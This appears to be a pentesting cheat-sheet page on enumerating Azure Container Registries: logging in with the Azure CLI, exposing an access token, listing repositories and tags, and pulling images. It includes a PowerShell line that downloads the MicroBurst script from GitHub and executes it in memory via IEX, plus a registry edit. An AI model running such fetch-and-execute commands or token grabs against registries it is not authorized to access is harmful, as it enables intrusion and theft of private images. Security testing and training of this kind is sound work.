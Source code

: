 # Azure Services - Container Registry

## Enumerate

List container registries in the subscription using Azure CLI 

```ps1
az login -u user@domain.onmicrosoft.com -p pass
az acr list -o table
```

Login to the Registry

```ps1
acr=<ACRName> # from the previous command
server=$(az acr login -n $acr --expose-token --query loginServer -o tsv) 
token=$(az acr login -n $acr --expose-token --query accessToken -o tsv) 
docker login $server -u 00000000-0000-0000-0000-000000000000 -p $token 
```

List the images in the ACR

```ps1
az acr repository list -n $acr 
```

List version tags for an image
```ps1
az acr repository show-tags -n $acr --repository mywebapp
```

Connect to the container registry from a PowerShell console, set the $server and $token variables, and pull the image from the registry

```ps1
# docker login ${registryURI} --username ${username} --password ${password}
$token="<AccessToken>"
$server="<LoginServer>"
docker login $server -u 00000000-0000-0000-0000-000000000000 -p $token
docker pull $server/mywebapp:v1
```

List docker containers inside a registry

```ps1
IEX (New-Object Net.WebClient).downloadstring("https://raw.githubusercontent.com/NetSPI/MicroBurst/master/Misc/Get-AzACR.ps1")
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Internet Explorer\Main" -Name "DisableFirstRunCustomize" -Value 2
Get-AzACR -username ${username} -password ${password} -registry ${registryURI}
```


## References

* [PENTESTING AZURE: RECON TECHNIQUES - April 29, 2022 Stefan Tita](https://securitycafe.ro/2022/04/29/pentesting-azure-recon-techniques/)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)